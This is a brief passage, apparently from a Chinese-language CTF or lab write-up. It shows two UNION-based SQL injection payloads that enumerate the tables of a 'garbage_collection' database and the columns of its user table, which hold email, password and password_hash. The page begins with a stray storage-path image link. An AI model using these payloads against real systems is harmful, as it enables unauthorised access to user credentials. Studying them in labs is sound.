     - ![](./img/sql_db.png)
  - 攻击获取表名： `' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema='garbage_collection'#`： file,user
    - ![](./img/sql_tab.png)
  - 攻击获取列名： `' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='user' and table_schema='garbage_collection'#`： id,name,email,password,password_hash
